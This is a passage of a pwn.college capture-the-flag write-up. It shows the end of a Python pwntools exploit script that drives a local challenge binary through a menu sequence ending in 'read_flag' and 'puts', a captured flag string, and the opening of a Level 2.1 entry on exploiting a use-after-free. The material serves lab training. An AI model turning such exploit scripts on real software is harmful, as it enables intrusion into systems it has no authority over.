 ```python
        (b"read_flag", None),
        (b"puts", None),
    ]


def attack(target, payload):
    try:
        for cmd, arg in payload:
            target.sendlineafter(b": ", cmd)

            if arg is not None:
                target.sendlineafter(b": ", arg)

        response = target.recvall(timeout=0.1)

        if b"pwn.college{" in response:
            return True
    except Exception as e:
        log.exception(f"An error occurred while performing attack: {e}")


def main():
    target = launch()
    payload = construct_payload()

    if attack(target, payload):
        exit()


if __name__ == "__main__":
    main()
```

## Flag

Flag: `pwn.college{ME7LG_Jy8T-xEw9H_njxpD2aJ4z.01M3MDL5cTNxgzW}`

# Level 2.1

## Information

- Category: Pwn

## Description

> Create and exploit a use-after-free vulnerability to get the flag.

## Write-up
